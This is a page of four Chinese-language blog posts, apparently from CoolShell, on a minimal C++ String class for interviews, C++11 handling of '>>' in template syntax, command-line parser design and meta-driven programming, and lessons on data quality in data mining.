



# C++面试中STRING类的一种正确写法

#####  [2013年10月09日 ](https://coolshell.cn/articles/10478.html) [Solstice](https://coolshell.cn/articles/author/solstice) 评论 [40 条评论](https://coolshell.cn/articles/10478.html#comments) 66,021 人阅读

**（感谢网友 [](http://weibo.com/u/1701018393?source=webim)[ @bnu_chenshuo ](http://weibo.com/u/1701018393?source=webim)投稿）**

C++ 的一个常见面试题是让你实现一个 String 类，限于时间，不可能要求具备 std::string 的功能，但至少要求能正确管理资源。具体来说：

1. 能像 int 类型那样定义变量，并且支持赋值、复制。
2. 能用作函数的参数类型及返回类型。
3. 能用作标准库容器的元素类型，即 vector/list/deque 的 value_type。（用作 std::map 的 key_type 是更进一步的要求，本文从略）。

换言之，你的 String 能让以下代码编译运行通过，并且没有内存方面的错误。

```
void foo(String x)
{
}

void bar(const String& x)
{
}

String baz()
{
  String ret("world");
  return ret;
}

int main()
{
  String s0;
  String s1("hello");
  String s2(s0);
  String s3 = s1;
  s2 = s1;

  foo(s1);
  bar(s1);
  foo("temporary");
  bar("temporary");
  String s4 = baz();

  std::vector<String> svec;
  svec.push_back(s0);
  svec.push_back(s1);
  svec.push_back(baz());
  svec.push_back("good job");
}
```

本文给出我认为适合面试的答案，强调正确性及易实现（白板上写也不会错），不强调效率。某种意义上可以说是以时间（运行快慢）换空间（代码简洁）。

首先选择数据成员，最简单的 String 只有一个 char* 成员变量。好处是容易实现，坏处是某些操作的复杂度较高（例如 size() 会是线性时间）。为了面试时写代码不出错，本文设计的 String 只有一个 char* data_成员。而且规定 invariant 如下：一个 valid 的 string 对象的 data_ 保证不为 NULL，data_ 以 `'\0'` 结尾，以方便配合 C 语言的 str*() 系列函数。

其次决定支持哪些操作，构造、析构、拷贝构造、赋值这几样是肯定要有的（以前合称 big three，现在叫 copy control）。如果钻得深一点，C++11的移动构造和移动赋值也可以有。为了突出重点，本文就不考虑 operator[] 之类的重载了。

这样代码基本上就定型了：

```
#include <utility>
#include <string.h>

class String
{
 public:
  String()
    : data_(new char[1])
  {
    *data_ = '\0';
  }

  String(const char* str)
    : data_(new char[strlen(str) + 1])
  {
    strcpy(data_, str);
  }

  String(const String& rhs)
    : data_(new char[rhs.size() + 1])
  {
    strcpy(data_, rhs.c_str());
  }
  /* Delegate constructor in C++11
  String(const String& rhs)
    : String(rhs.data_)
  {
  }
  */

  ~String()
  {
    delete[] data_;
  }

  /* Traditional:
  String& operator=(const String& rhs)
  {
    String tmp(rhs);
    swap(tmp);
    return *this;
  }
  */
  String& operator=(String rhs) // yes, pass-by-value
  {
    swap(rhs);
    return *this;
  }

  // C++ 11
  String(String&& rhs)
    : data_(rhs.data_)
  {
    rhs.data_ = nullptr;
  }

  String& operator=(String&& rhs)
  {
    swap(rhs);
    return *this;
  }

  // Accessors

  size_t size() const
  {
    return strlen(data_);
  }

  const char* c_str() const
  {
    return data_;
  }

  void swap(String& rhs)
  {
    std::swap(data_, rhs.data_);
  }

 private:
  char* data_;
};
```

注意代码的几个要点：

1. 只在构造函数里调用 new char[]，只在析构函数里调用 delete[]。
2. 赋值操作符采用了《C++编程规范》推荐的现代写法。
3. 每个函数都只有一两行代码，没有条件判断。
4. 析构函数不必检查 data_ 是否为 NULL。
5. 构造函数 `String(const char* str)` 没有检查 str 的合法性，这是一个永无止境的争论话题。这里在初始化列表里就用到了 str，因此在函数体内用 assert() 是无意义的。

这恐怕是最简洁的 String 实现了。

**练习1**：增加 operator==、operator<、operator[] 等操作符重载。

**练习2**：实现一个带 int size_; 成员的版本，以空间换时间。

**练习3**：受益于右值引用及移动语意，在 C++11 中对 String 实施直接插入排序的性能比C++98/03要高，试编程验证之。（g++的标准库也用到了此技术。）

陈皓注：同时，大家可以移步看看我的一篇老文《[STL中String类的问题](http://blog.csdn.net/haoel/article/details/1491219)》	

# C++模板”>>”编译问题与词法消歧设计

#####  [2013年10月02日 ](https://coolshell.cn/articles/10449.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [17 条评论](https://coolshell.cn/articles/10449.html#comments) 17,205 人阅读

**（感谢 [@文艺复兴记](http://weibo.com/weidagang)（todd） 投递此文）**

在编译理论中，通常将编译过程抽象为5个主要阶段：词法分析(Lexical Analysis)，语法分析(Parsing)，语义分析(Semantic Analysis)，优化(Optimization)，代码生成(Code Generation)。这5个阶段类似Unix管道模型，上一个阶段的输出作为下一个阶段的输入。其中，词法分析是根据输入源代码文本流，分割出词，识别类别，产生词法元素(Token)流，如：

```
int a = 10;
```

经过词法分析会得到[(Type, “int”), (Identifier, “a”), (AssignOperator, “=”), (IntLiteral, 10)]，在后续的语法分析阶段，就会根据这些词法元素匹配相应的语法规则。在我学习编译原理时，教科书中对于词法分析的介绍主要是基于正则表达式的，言下之意就是普通语言的词法规则是可以通过正则表达式描述的。比如，C语言的变量名规则是“包含字母、数字或下划线，并且以字母或下划线开头”，这就可以用正则表达式`[a-zA-Z_][a-zA-Z0-9_]*`表达。但是，在实践中我发现不管是主流语言，还是自己设计的DSL都大量存在不能简单通过正则表达式进行词法分析的例子。来看C++98的模版例子：

```
map<int, vector<int>>
```

上面这段代码会被C++98编译器中报语法错误，原因在于它把“>>”识别成了位右移运算符而不是两个模版右括号，在C++98中必须在两个括号中间加空格，写成


```
map<int, vector<int> >
```

除此了C++模版，据我所知，经典的FORTRAN语言的语法规则更是大量存在词法歧义。

我认为从本质上讲，这类问题的根源在于词法分析的依据只是简单的词法规则，并不具备所有的语法信息，而词法歧义必须提升一层在语法规则中消除。所以，在我自己设计一些DSL的时候干脆就把词法分析和语法分析合二为一了，相当于让语法分析在字符层次上去进行，而不是经典的词法元素层次上，这就是所谓的[Scannerless Parsing](https://en.wikipedia.org/wiki/Scannerless_parsing)。采用这种方法的例子并不少见，TeX, Wiki, Makefile和Perl 6等语言的语法分析器都属此类。

Scannerless Parsing方法弥补了词法规则无法消歧的问题，但是同时也破坏了词法和语法分析简单清晰的管道结构，总体上增加了实现和理解的复杂度。另外，像C++这样大型的语言，如果开始是有词法分析的，稍微碰到一个歧义就整个转成Scannerless Parsing未免也显得太夸张了。这个问题困扰了我很久，直到最近才找到了一个满意的解决方案。还是以上面”>>”为例，我们知道现在C++11已经允许不加空格了，那么C++11编译器是如何处理这个词法歧义的呢？答案是：词法分析阶段既然分析不好”>>”，干脆就不分析了，直接把”>” “>”交给语法分析器来分析，其他没有词法歧义的照旧。当我知道这个方案的时候不由得感叹：妙！理论上，词法分析是可以什么也不做的，全部把字符一一交给语法分析器也没有问题，所以，干脆让词法分析只做有把握的部分，解决不了的交给语法分析器，这样就既保留了管道结构，又解决了词法歧义。

下面我们再来看看C++11规范关于这个问题的定义：

> 14.2 Names of template specializations [temp.names] ###
>
> After name lookup (3.4) finds that a name is a template-name or that an operator-function-id or a literal-operator-id refers to a set of overloaded functions any member of which is a function template if this is followed by a <, the < is always taken as the delimiter of a template-argument-list and never as the less-than operator. When parsing a template-argument-list, the first non-nested > is taken as the ending delimiter rather than a greater-than operator. Similarly, the first non-nested >> is treated as two consecutive but distinct > tokens, the first of which is taken as the end of the template-argument-list and completes the template-id. [ Note: The second > token produced by this replacement rule may terminate an enclosing template-id construct or it may be part of a different construct (e.g. a cast).—end note ]

可见，在C++11中，词法分析器是把”>>”直接当成两个”>”传给了语法分析器，然后在语法分析中如果匹配了template-argument-lis语法，第一个”>”符号会被直接认为是模版结束符，而不是大于，也不是位移符号。根据这个定义，我构造了一个例子：

```
template<int N>
class Foo {
};

Foo<3>>1> foo;
```

这个例子在C++98中是能正确编译的，”>>”被解释成了位移运算，但是它反而不能在C++11中编译了，因为根据规范第一个”>”被解释成了模版参数结束符。如果要在C++11中编译，需要显式地加上括号：

```
Foo<(3>>1)> foo;
```

# 数据即代码：元驱动编程

#####  [2013年08月09日 ](https://coolshell.cn/articles/10337.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [77 条评论](https://coolshell.cn/articles/10337.html#comments) 57,553 人阅读

**（感谢 [@文艺复兴记](https://weibo.com/weidagang)（todd） 投递此文）**

几个小伙伴在考虑下面这个各个语言都会遇到的问题：

**问题：设计一个命令行参数解析API**

一个好的命令行参数解析库一般涉及到这几个常见的方面：

1) 支持方便地生成帮助信息
2) 支持子命令，比如：git包含了push, pull, commit等多种子命令
3) 支持单字符选项、多字符选项、标志选项、参数选项等多种选项和位置参数
4) 支持选项默认值，比如：–port选项若未指定认为5037
5) 支持使用模式，比如：tar命令的-c和-x是互斥选项，属于不同的使用模式

经过一番考察，小伙伴们发现了这个几个有代表性的API设计：

**1. getopt()：**

[getopt()](https://www.gnu.org/software/libc/manual/html_node/Getopt.html)是libc的标准函数，很多语言中都能找到它的移植版本。


```
//C
while ((c = getopt(argc, argv, "ac:d:")) != -1) {
    int this_option_optind = optind ? optind : 1;
    switch (c) {
    case 'a':
        printf ("option a");
        aopt = 1;
        break;
    case 'c':
        printf ("option c with value '%s'", optarg);
        copt = optarg;
        break;
    case 'd':
        printf ("option d with value '%s'", optarg);
        dopt = optarg;
        break;
    case '?':
        break;
    default:
        printf ("?? getopt returned character code 0%o ??", c);
    }
}
```


getopt()的核心是一个类似printf的格式字符串的命令行参数描述串，如上面的”ac:d:”定义了”a”, “c”，”d”3个命令行参数，其中，a是一个标志符不需要参数，”c”和”d”需要跟参数。getopt()功能非常弱，只支持单个字符的标志选项和参数选项。如果按上面的5点来比对，基本上只能说是勉强支持第3点，其他几项只能靠程序自己来实现了，所以，想直接基于getopt()实现一个像git这样复杂的命令行参数是不可能的，只有自己来做很多的解析工作。小伙伴们看过getopt()之后一致的评价是:图样图森破。

**2. Google gflags**

接着，小伙伴们又发现了[gflags](https://code.google.com/p/gflags/)这个Google出品C++命令行参数解析库。


```
//C++
DEFINE_bool(memory_pool, false, "If use memory pool");
DEFINE_bool(daemon, true, "If started as daemon");
DEFINE_string(module_id, "", "Server module id");
DEFINE_int32(http_port, 80, "HTTP listen port");
DEFINE_int32(https_port, 443, "HTTPS listen port");

int main(int argc, char** argv) {
    ::google::ParseCommandLineFlags(&argc, &argv, true);

    printf("Server module id: %s", FLAGS_module_id.c_str());

    if (FLAGS_daemon) {
      printf("Run as daemon: %d", FLAGS_daemon);
    }
    if (FLAGS_memory_pool) {
      printf("Use memory pool: %d", FLAGS_daemon);
    }

    Server server;

    return 0;
}
```


小伙伴们看了后不由得感叹“真心好用啊”！的确，gflags简单地通过几个宏就定义了命令行选项，基本上很好的支持了上面提到的1，3，4这几项，比起getopt()来强多了。对于类似cp这样的小命令，gflags应该是够用了，但要达到git这种级别就显得有些单薄了。

**3. Ruby Commander**

接下来小伙伴们又发现了Ruby Commander库：


```
//Ruby
# :name is optional, otherwise uses the basename of this executable
program :name, 'Foo Bar'
program :version, '1.0.0'
program :description, 'Stupid command that prints foo or bar.'
command :bar do |c|
  c.syntax = 'foobar bar [options]'
  c.description = 'Display bar with optional prefix and suffix'
  c.option '--prefix STRING', String, 'Adds a prefix to bar'
  c.option '--suffix STRING', String, 'Adds a suffix to bar'
  c.action do |args, options|
    options.default :prefix => '(', :suffix => ')'
    say "#{options.prefix}bar#{options.suffix}"
  end
end
$ foobar bar
# => (bar)
$ foobar bar --suffix '}' --prefix '{'
# => {bar}
```


Commander库利用Ruby酷炫的语法定义了一种描述命令行参数的内部DSL，看起来相当高端大气上档次。除了上面的第5项之外，其他几项都有很好的支持，可以说Commander库的设计基本达到了git这种级别命令行参数解析的要求。只是，要搞懂Ruby这么炫的语法和这个库的使用方法恐怕就不如getopt()和gflags容易了。有小伙伴当场表示想要学习Ruby，但是也有小伙伴表示再看看其他库再说。

**4. Lisp cmdline库**

接下来，小伙伴们发现了Lisp方言Racket的[cmdline库](https://docs.racket-lang.org/reference/Command-Line_Parsing.html)。


```
//Lisp
(parse-command-line "compile" (current-command-line-arguments)
  `((once-each
     [("-v" "--verbose")
      ,(lambda (flag) (verbose-mode #t))
      ("Compile with verbose messages")]
     [("-p" "--profile")
      ,(lambda (flag) (profiling-on #t))
      ("Compile with profiling")])
    (once-any
     [("-o" "--optimize-1")
      ,(lambda (flag) (optimize-level 1))
      ("Compile with optimization level 1")]
     [("--optimize-2")
      ,(lambda (flag) (optimize-level 2))
      (("Compile with optimization level 2,"
        "which implies all optimizations of level 1"))])
    (multi
     [("-l" "--link-flags")
      ,(lambda (flag lf) (link-flags (cons lf (link-flags))))
      ("Add a flag <lf> for the linker" "lf")]))
   (lambda (flag-accum file) file)
   '("filename"))
```


这是神马浮云啊?括号套括号，看起来很厉害的样子，但又不是很明白。看到这样的设计，有的小伙伴连评价都懒得评价了，但也有的小伙伴对Lisp越发崇拜，表示Lisp就是所谓的终极语言了，没有哪门语言能写出这么不明觉历的代码来！小伙伴们正准备打完收工，突然…

**5. Node.js的LineParser库**

发现了Node.js的[LineParser库](https://github.com/weidagang/line-parser-js):

[javascript]
//JavaScript
var meta = {
program : ‘adb’,
name : ‘Android Debug Bridge’,
version : ‘1.0.3’,
subcommands : [ ‘connect’, ‘disconnect’, ‘install’ ],
options : {
flags : [
[ ‘h’, ‘help’, ‘print program usage’ ],
[ ‘r’, ‘reinstall’, ‘reinstall package’ ],
[ ‘l’, ‘localhost’, ‘localhost’ ]
],
parameters : [
[ null, ‘host’, ‘adb server hostname or IP address’, null ],
[ ‘p’, ‘port’, ‘adb server port’, 5037 ]
]
},
usages : [
[ ‘connect’, [‘host’, ‘[port]’], null, ‘connect to adb server’, adb_connect ],
[ ‘connect’, [ ‘l’ ], null, ‘connect to the local adb server’, adb_connect ],
[ ‘disconnect’, null, null, ‘disconnect from adb server’, adb_disconnect ],
[ ‘install’, [‘r’], [‘package’], ‘install package’, adb_install ],
[ null, [‘h’], null, ‘help’, adb_help ],
]
};

try {
var lineparser = require(‘lineparser’);
var parser = lineparser.init(meta);
// adb_install will be invoked
parser.parse([‘install’, ‘-r’, ‘/pkgs/bird.apk’]);
}
catch (e) {
console.error(e);
}
[/javascript]

天啊！？这是什么？我和小伙伴们彻底惊呆了！短短十几行代码就获得了上面5点的全面支持，重要的是小伙伴们居然一下子就看懂了，没有任何的遮遮掩掩和故弄玄虚。本来以为Ruby和Lisp很酷，小伙伴们都想马上去学Ruby和Lisp了，看到这个代码之后怎么感觉前面全是在装呢？有个小伙伴居然激动得哭着表示：我写代码多年，以为再也没有什么代码可以让我感动，没想到这段代码如此精妙，我不由得要赞叹了，实在是太漂亮了！

小伙伴们的故事讲完了，您看懂了吗？如果没有看懂的话，正题开始了：

在绝大多数语言中数据和代码可以说是泾渭分明，习惯C++、Java等主流语言的程序员很少去思考数据和代码之间的关系。与多数语言不同的是Lisp以“数据即代码，代码即数据”著称，Lisp用S表达式统一了数据和代码的形式而独树一帜。Lisp奇怪的S表达式和复杂的宏系统让许多人都感到Lisp很神秘，而多数Lisp教程要么强调函数式编程，要么鼓吹宏如何强大，反而掩盖了Lisp真正本质的东西，为此我曾写过一篇[《Lisp的永恒之道》](https://www.cnblogs.com/weidagang2046/archive/2012/06/03/tao_of_lisp.html)介绍Lisp思想。

设计思想和具体技术的区别在于前者往往可以在不同的环境中以不同的形式展现出来。比如，熟悉函数式编程的程序员在理解了纯函数的优点后即使是用C语言也会更倾向于写出无副作用的函数来，这就是函数式思想在命令式环境的应用。所以，理解Lisp思想一定要能在非Lisp环境应用，才算是融汇贯通。

如果真正理解了Lisp的本质，那所谓的“数据即代码，代码即数据”一点儿也不神秘，这不就是我们每天打交道的配置文件吗！？如果你还不是很理解的话，我们通过下面几个问题慢慢分析：

1) 配置的本质是什么？为什么要在程序中使用配置文件？

不知道你是否意识到了，我们每天都在使用的各种各样的**配置本质上是一种元数据也是一种DSL**，这和Lisp基于S表达式的“数据即代码，代码即数据”没有本质区别。在C++、Java等程序中引入配置文件的目的正是用DSL弥补通用语言表达能力和灵活性的不足。我知道不少人喜欢从计算的角度来看到程序和语言，似乎只有图灵完备的语言如C++、Java、Python等才叫程序设计语言，而类似CSS和HTML这样的东西根本不能叫做程序设计语言。其实，在我看来这种观点过于狭隘，**程序的本质是语义的表达**，而语义表达不一定要是计算。

2) 配置是数据还是代码？

很明显，Both!说配置是数据，因为它是声明式的描述，能方便地修改和传输；说配置是代码，因为它在表达逻辑，你的程序实际上就是配置的解释器。

3) 配置的格式是什么？

配置的格式是任意的，可以自己定义语法，只要配以相应的解释器就行。不过更简单通用的做法是基于XML、JSON、或S表达式等标准结构，在此之上进一步定义schema。甚至完全不必是文件，在我们的项目中配置经常是放到用关系数据库中的。另外，下面我们还会看到用语言的Literal数据作为配置。

4) 业务逻辑都可以放到配置中吗？

这个问题的答案显然是：Yes！我没有遇到过不可以放入配置的逻辑，只是问题在于这样做是否值得，能达到什么效果。对于需要灵活变化，重复出现，有复用价值的东西放入作为配置是明智的选择。这篇文章的主要目的就在于介绍把**主要业务逻辑都放到配置中，再通过程序解释执行配置的设计方法，我称之为：元驱动编程(Meta Driven Programming)**。

# 数据的游戏：冰与火

#####  [2013年07月31日 ](https://coolshell.cn/articles/10192.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [127 条评论](https://coolshell.cn/articles/10192.html#comments) 80,295 人阅读

我对数据挖掘和机器学习是新手，从去年7月份在Amazon才开始接触，而且还是因为工作需要被动接触的，以前都没有接触过，做的是需求预测机器学习相关的。后来，到了淘宝后，自己凭兴趣主动地做了几个月的和用户地址相关数据挖掘上的工作，有一些浅薄的心得。下面这篇文章主要是我做为一个新人仅从事数据方面技术不到10个月的一些心得，也许对你有用，也许很傻，不管怎么样，欢迎指教和讨论。

另外，注明一下，这篇文章的标题模仿了一个美剧《[权力的游戏：冰与火之歌](https://movie.douban.com/subject/3016187/)》。在数据的世界里，我们看到了很多很牛，很强大也很有趣的案例。但是，**数据就像一个王座一样，像征着一种权力和征服，但登上去的路途一样令人胆颤**。

目录


[数据挖掘中的三种角色](https://coolshell.cn/articles/10192.html#数据挖掘中的三种角色)[数据的质量](https://coolshell.cn/articles/10192.html#数据的质量)[案例一：数据的标准](https://coolshell.cn/articles/10192.html#案例一：数据的标准)[案例二：数据的准确](https://coolshell.cn/articles/10192.html#案例二：数据的准确)[数据的业务场景](https://coolshell.cn/articles/10192.html#数据的业务场景)[数据的分析结果](https://coolshell.cn/articles/10192.html#数据的分析结果)[总结](https://coolshell.cn/articles/10192.html#总结)

#### 数据挖掘中的三种角色

在Amazon里从事机器学习的工作时，我注意到了Amazon玩数据的三种角色。

- **Data Analyzer：数据分析员**。这类人的人主要是分析数据的，从数据中找到一些规则，并且为了数据模型的找不同场景的Training Data。另外，这些人也是把一些脏数据洗干净的的人。

- **Research Scientist：研究科学家**。这种角色主要是根据不同的需求来建立数据模型的。他们把自己戏称为不近人间烟火的奇异性物种，就像《生活大爆炸》里的 那个Sheldon一样。这些人基本上玩的是数据上的科学

- **Software Developer ：软件开发工程师**。主要是把 Scientist 建立的数据模型给实现出来，交给Data Analyzer去玩。这些人通常更懂的各种机器学习的算法。

我相信其它公司的做数据挖掘或是机器学习的也就这三种工作，或者说这三种人，对于我来说，


- **最有技术含量的是 Scientist**，因为数据建模和抽取最有意义的向量，以及选取不同的方法都是这类人来决定的。这类人，我觉得在国内是找不到的。

- **最苦逼，也最累，但也最重要的是Data Analyzer**，他们的活也是这三个角色中最最最重要的（注意：我用了三个最）。因为，无论你的模型你的算法再怎么牛，在一堆烂数据上也只能干出一堆垃圾的活来。正所谓：Garbage In, Garbage Out ！但是这个活是最脏最累的活，也是让人最容易退缩的活。

- **最没技术含量的是Software Developer**。现在国内很多玩数据的都以为算法最重要，并且，很多技术人员都在研究机器学习的算法。错了，最重要的是上面两个人，一个是苦逼地洗数据的Data Analyzer，另一个是真正懂得数据建模的Scientist！而像什么[K-Means](https://coolshell.cn/articles/7779.html)，[K Nearest Neighbor](https://coolshell.cn/articles/8052.html)，或是别的什么贝叶斯、回归、决策树、随机森林等这些玩法，都很成熟了，而且又不是人工智能，说白了，这些算法在机器学习和数据挖掘中，似乎就像Quick Sort之类的算法在软件设计中基本没什么技术含量。当然，我不是说算法不重要，我只想说这些算法在整个数据处理中是最不重要的。

#### 数据的质量

**目前所流行的Buzz Word——大数据是相当误导人的。在我眼中，数据不分大小，只分好坏。**

在处理数据的过程中，我第一个感受最大的就是数据质量。下面我分几个案例来说明：

##### 案例一：数据的标准

在Amazon里，所有的商品都有一个唯一的ID，叫ASIN——Amazon Single Identify Number，这个ID是用来标识商品的唯一性的（来自于条形码）。也就是说，无论是你把商品描述成什么样，只要ASIN一样，这就是完完全全一模一样的商品。

这样，就不像淘宝一样，当你搜索一个iPhone，你会出现一堆各种各样的iPhone，有的叫“超值iPhone”，有的叫“苹果iPhone”，有的叫“智能手机iPhone”，有的叫“iPhone 白色/黑色”……，这些同一个商品不同的描述是商家为了吸引用户。但是带来的问题有两点：

1）**用户体验不好**。以商品为中心的业务模型，对于消费者来说，体验明显好于以商家为中心的业务模型。

2）**只要你不能正确读懂（识别）数据，你后面的什么算法，什么模型统统没用**。

所以，只要你玩数据，你就会发现，**如果数据的标准没有建立起来，干什么都没用。数据标准是数据质量的第一道关卡**，没这个玩意，你就什么也别玩了。所谓数据的标准，为数据做唯一标识只是其中最最基础的一步，数据的标准还单单只是这个，**更重要的是把数据的标准抽象成数学向量，没有数学向量，后面也无法挖掘**。

所以，你会看到，**洗数据的大量的工作就是在把杂乱无章的数据归并聚合，这就是在建立数据标准。这里面绝对少不了人肉的工作**。无非就是：

- 聪明的人在数据产生之前就定义好标准，并在数据产生之时就在干数据清洗的工作。

- 一般的人是在数据产生并大量堆积之后，才来干这个事。

另外，说一下Amazon的ASIN，这个事从十多年前就开始了，我在Amazon的内网里看到的资料并没有说为什么搞了个这样一个ID，我倒觉得这并不是因为Amazon因为玩数据发现必需建议个商品ID，也许因为Amazon的业务模型就是设计成以“商品为中心”的。今天，这个ASIN依然有很多很多的问题，ASIN一样不能完全保证商品就是一样的，ASIN不一样也不代表商品不一样，不过90%以上的商品是保证的。Amazon有专门的团队Category Team，里面有很多业务人员天天都在拼命地在对ASIN的数据进行更正。

##### 案例二：数据的准确

用户地址是我从事过数据分析的另一个事情。我还记得当时看到那数以亿计的用户地址的数据的那种兴奋。但是随后我就兴奋不起来了。因为地址是用户自己填写的，这里面有很多的坑，都不是很容易做的。

第一个是假/错地址，因为有的商家作弊或是用户做测试。所以地址是错的，

- 比如，直接就输入“该地址不存在”，“13243234asdfasdi”之类的。这类的地址是可以被我的程序识别出来的。

- 还有很难被我的程序所识别出来的。比如：“宇宙路地球小区”之类的。但这类地址可以被人识别出来。

- 还有连人都识别不出来的，比如：“北京市东四环中路23号南航大厦5楼540室”，这个地址根本不存在。

第二个是真地址，但是因为用户写的不标准，所以很难处理，比如：

- 缩写：“建国门外大街” 和 “建外大街”，“中国工商银行”和“工行”……

- 错别字：“潮阳门”，“通慧河”……

- 颠倒：“东四环中路朝阳公园” 和 “朝阳公园 （靠东四环）” ……

- 别名：有的人写的是开发商的小区名“东恒国际”，有的则是写行政的地名“八里庄东里”……

这样的例子多得不能再多了。可见数据如果不准确，会增加你处理的难度。有个比喻非常好，**玩数据的就像是在挖金矿一样，如果含金量高，那么，挖掘的难度就小，也就容易出效果，如果含金量低，那么挖掘的难度就大，效果就差**。

上面，我给了两个案例，旨在说明——

**1）数据没有大小之分，只有含金量大的数据和垃圾量大的数据之分**。

**2）数据清洗是一件多么重要的工作，这也是一件人肉工作量很大的工作。**

所以，这个工作最好是在数据产生的时候就一点一滴的完成。

有一个观点：**如果数据准确度在60%的时候，你干出来的事，一定会被用户骂！如果数据准确度在80%左右，那么用户会说，还不错！只有数据准确度到了90%的时候，用户才会觉得真牛B。但是从数据准确度从80%到90%要付出的成本要比60% 到 80%的付出大得多得多**。大多数据的数据挖掘团队都会止步于70%这个地方。因为，再往后，这就是一件相当累的活。

#### 数据的业务场景

我不知道有多少数据挖掘团队真正意识到了业务场景和数据挖掘的重要关系？**我们需要知道，根本不可能做出能够满足所有业务的数据挖掘和分析模型**。

推荐音乐视频，和电子商务中的推荐商品的场景完全不一样。电商中，只要你买了一个东西没有退货，那么，有很大的概率我可以相信你是喜欢这个东西的，然后，对于音乐和视频，你完全不能通过用户听了这首歌或是看了这个视频就武断地觉得用户是喜欢这首歌和这个视频的，所以，我们可以看到，推荐算法在不同的业务场景下的实现难度也完全不一样。

说到推荐算法，你是不是和我一样，有时候会对推荐有一种感觉——**推荐就是一种按不同维度的排序的算法**。我个人以为，就提一下推荐这个东西在某些业务场景下是比较Tricky的，比如，推荐有两种（不是按用户关系和按物品关系这两种），

- 一种是共性化推荐，结果就是推荐了流行的东西，这也许是好 的，但这也许会是用户已知的东西，比如，到了北京，我想找个饭馆，你总是给我推荐烤鸭，我想去个地方，你总是给我推荐天安门故宫天坛（因为大多数人来北京就是吃烤鸭，就是去天安门的），这些我不都知道了嘛，还要你来推荐？另外，共性化的东西通常是可以被水军刷的。

- 另一种是一种是个性化推荐，这个需要分析用户的个体喜好，好的就是总是给我我喜欢的，不好的就是也许我的口味会随我的年龄和环境所改变，而且，总是推荐符合用户口味的，不能帮用户发掘新鲜点。比如，我喜欢吃辣的，你总是给我推荐川菜和湘菜，时间长了我也会觉得烦的。

**推荐有时并不是民主投票，而是专业用户或资深玩家的建议；推荐有时并不是推荐流行的，而是推荐新鲜而我不知道的**。你可以看到，不同的业务场景，不同的产品形态下的玩法可能完全不一样，

另外，就算是对于同一个电子商务来说，书、手机 和服装的业务形态完全不一样。我之前在Amazon做Demand Forecasting（用户需求预测）——通过历史数据来预测用户未来的需求。

- 对于书、手机、家电这些东西，在Amazon里叫Hard Line的产品，你可以认为是“标品”（但也不一定），预测是比较准的，甚至可以预测到相关的产品属性的需求。

- 但是地于服装这样的叫Soft Line的产品，Amazon干了十多年都没有办法预测得很好，因为这类东西受到的干扰因素太多了，比如：用户的对颜色款式的喜好，穿上去合不合身，爱人朋友喜不喜欢…… 这类的东西太容易变了，买得人多了反而会卖不好，所以根本没法预测好，更别Stock/Vender Manager 提出来的“预测某品牌的某种颜色的衣服或鞋子”。

对于需求的预测，我发现，长期在这个行业中打拼的人的预测是最准的，什么机器学习都是浮云。机器学习只有在你要面对的是成千上万种不同商品和品类的时候才会有意义。

**数据挖掘不是人工智能，而且差得还太远。不要觉得数据挖掘什么事都能干，找到一个合适的业务场景和产品形态，比什么都重要**。

#### 数据的分析结果

我看到很多的玩大数据的，基本上干的是数据统计的事，从多个不同的维度来统计数据的表现。最简单最常见的统计就是像网站统计这样的事。比如：PV是多少，UV是多少，来路是哪里，浏览器、操作系统、地理、搜索引擎的分布，等等，等等。

唠叨一句，千万不要以为，你一天有十几个T的日志就是数据了，也不要以为你会用Hadoop/MapReduce分析一下日志，这就是数据挖掘了，说得难听一点，你在做的只不过是一个统计的工作。那几个T的Raw Data，基本上来说没什么意义，只能叫日志，连数据都算不上，只有你统计出来的这些数据才是有点意义的，才能叫数据。

当一个用户在面对着自己网店的数据的时候，比如：每千人有5个人下单，有65%的访客是男的，18-24岁的人群有30%，等等。甚至你给出了，你打败了40%同类型商家的这样的数据。作为一个商户，面对这些数据时，大多数人的表现是完全不知道自己能干什么？是把网站改得更男性一点，还是让年轻人更喜欢一点？完全不知道所措。

只要你去看一看，你会发现，好些好些的数据分析出来的结果，看上去似乎不错，但是其实完全不知道下一步该干什么？

所以，我觉得，**数据分析的结果并不仅仅只是把数据呈现出来，而更应该关注的是通过这些数据后面可以干什么？如果看了数据分析的结果后并不知道可以干什么，那么这个数据分析是失败的。**

#### 总结

综上所述，下面是我觉得数据挖掘或机器学习最重要的东西：

1）**数据的质量**。分为数据的标准和数据的准确。数据中的杂音要尽量地排除掉。为了数据的质量，大量人肉的工作少不了。

2）**数据的业务场景**。我们不可能做所有场景下的来，所以，业务场景和产品形态很重要，我个人感觉业务场景越窄越好。

